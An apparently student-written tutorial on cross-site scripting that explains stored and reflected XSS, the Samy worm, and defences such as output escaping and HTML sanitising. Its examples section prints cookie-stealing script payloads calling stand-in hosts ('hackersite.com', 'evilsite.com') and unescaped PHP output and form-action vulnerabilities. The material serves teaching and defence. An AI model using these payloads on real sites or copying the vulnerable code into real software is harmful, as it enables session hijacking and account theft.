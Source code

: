Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website 
and is considered one of the more dangerous website vulnerabilities. Web sites are 
vulnerable  when they don't use validation or encoding on user generated 
data. This is dangerous for the site users, who are at risk for their data being 
stolen. There are several different ways for web applications to help prevent 
Cross-Site Scripting, such as escaping characters, Signature based filtering, 
and avoiding/validating HTML given by users. Users can also take precautions, such 
as using anti-viruses, checking that the sites they are using are safe, and being 
careful of clicking on unknown links.  


What is Cross-Site Scripting and Why is it Dangerous?
-----------------------------------------------------


XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
to gather information from the users. Most of the danger lies on the users of the 
sites, as the code targets their information and use rather than the website itself. [XSS]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords, 
	    
	3. Phishing, or sending out fake and/or malicious emails, usually to steal user 
	   data such as usernames and passwords. 
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
These attacks can be damaging if the attacker manages to steal a user's username and/or 
password. They can be used to get into user accounts and either use their accounts as 
dummy accounts to send out other attacks, steal the users private, saved information, 
or could be used to purchase items in the users's name if their purchasing information is 
included in the account, such as an Amazon Prime or credit card account.
	
* There are two different types of XSS attacks, stored and reflective

	* Stored XSS is "stored", or imbedded, on the website itself and steals data every time 
	  the website is visited. [xss-prevention]_ It is also known as "persistent XSS", 
	  and can be the more dangerous of the two types. [xss-attacks]_

	* Reflective XSS is stored in a link embedded in the website that the user has to 
	  click on to activate. [xss-attacks]_ 
 
  
XSS attacks have been around since the start of the web, first becoming a problem when 
JavaScript language was introduced to the web application world. [Grossman]_

* One of the earliest XSS worms was known as "Samy", which was a small code that 
  a 19 put in his MySpace profile to add anyone who viewed his profile as a friend. 
  But it also added the code invisible to everyone who viewed his page, and it 
  quickly multiplied exponentially, adding over one million friend requests in just over  
  24 hours before MySpace took the website down. [Grossman]_ [Franceschi]_ 

What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall (WAF) - the most common protection [xss-attacks]_ 
	
	* Many web browsers now come with built-in defenses against some XSS attacks. 
	  This mostly works on reflective XSS, as the browsers can detect when common attack 
	  senarios are run, and can neutralize them even if the user clicks on the link 
	  itself. [Shema]_
	
* Signature based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use ``htmlentities()`` , a built in function for 
	  escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	  before entering any un-trusted or un-validated data [xss_cheat_sheet]_
	  
	* One way to do this is to use regular expressions to validate data that is entered. 
	  Regular expressions often include escape characters that would be allowed, such as 
	  ``\.`` for "." Regular expressions can also be used to find special characters 
	  and escape them with a special sequences  such as ``&amp;`` for &. [Watts]_  
	  
	* Many browers use a *blacklist* or a *whitelist* with regular expressions. 
	  The *blacklist* looks for matches to disallowed data, while the *whitelist* 
	  matches valid data. [Shema]_ 
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	  truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
  ReStructuredText

* If HTML is needed, such as on blogging site where users may expect the ability 
  to use HTML on their personal blogs and/or comments, use a library such as HTML 
  Purifier to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. Phishing 
  attacks are usually heard coming through emails, and happen when the user clicks on a 
  link that leads them to a malicious website. 
  
	* For example, if you get an email saying that your password/username has expired 
	  or needs to be changed, the safest option is to go to a new tab and go to the 
	  website yourself to see if the password/username really needs changed, and if 
	  it does, you can change it through the website itself. 
	  
	* The same process should be used if you get an email saying that your shipping 
	  or billing information needs to be updated for an online order. 

* Make sure that websites that you are visiting are safe, or take precautions before 
  or while you are on the website. 
  
	* Some anti-viruses, such as Norton and Kaspersky, come with web add-ons that will 
	  check out websites when you google them. For Kaspersky, this can show up as a 
	  green tag with a K inside next to websites that it has verified are safe to 
	  visit, a grey version next to links that it cannot verify, and a red version for 
	  links that are deemed dangerous. 

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
  AnitVirus Plus, or Kaspersky Anti-Virus. As shown above, these can protect you from 
  malicious links while googling, but they can also protect the user from phishing 
  and keylogging attempts.  

Example of Cross-Site Scripting:
-------------------------------

.. figure:: stored_XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
  HTML tags. They leave a comment that says: 
  
  "Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
  
  This is stored in the website, and every time someone visits the page, they can 
  have their session cookies stolen. 


	* However, this is harder for hackers to attempt, because they must find a 
	  highly trafficked site that also has a security hole that they can infiltrate. [xss-prevention]_

* Another Stored XSS example would be: 

	* Vulnerability: ``<div id="profile"><?php echo $user['profile']; ?></div>``
	  This only works if the profile is pulled from a database with no escapeing 
	  (discussed above) to protect it. The following script will show how this 
	  vulnerability could be used to steal the user's cookies. This would allow 
	  the hacker to impersonate the user who looked at the website. [xss-attacks]_ 
	 
	* Attack: 
	
	  ``<script>``
			``window.open("http://evilsite.com/cookie_stealer.php?cookie=" + document.cookie, "_blank");``
		``</script>``

	
* Reflective XSS: Similar to above, except that the user would have to click on the link 
  to activate the code. 
  
* Another reflectve XSS example would be: 

	* Vulnerability: ``<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post">`` 
	  All the attacker needs to do in this case is get the user to click on the link 
	  shown below, and an alert saying "XSS"(code) will pop up. 
	
	* Attack:
	  Link: ``/form.php?%22%20onload%3D%22alert(%27XSS%27)%3B``
	  Code: ``<form action="/form.php?" onload="alert('XSS');" method="post">`` 


Sources
-------

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. Imperva, n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [Franceschi] Franceschi-Bicchierai, Lorenzo. "`The MySpace Worm that Changed the Internet Forever. <https://motherboard.vice.com/en_us/article/the-myspace-worm-that-changed-the-internet-forever>`_." Motherboard. Motherboard, 04 Oct. 2015. Web. 23 Feb. 2017. 

.. [Grossman] Grossman, Jeremiah. *XSS Attacks: Cross-site Scripting Exploits and Defense*. N.p.: Syngress, 2007. Print. 

.. [Shema] Shema, Mike. “HTML Injection & Cross-Site Scripting (XSS).” *Hacking Web Apps: Detecting and Preventing Web Application Security Problems* , Syngress, 2012, pp. 23–78.

.. [Watts] Watt, Andrew. *Beginning Regular Expressions*. Indianapolis , IN, Wiley, 2005. Print.  

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. Acunetix. n.d. Web. 16 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. OWASP, n.d. Web. 19 Feb. 2017.



*Written by Kyann, Edited by Rasim and Cole.*

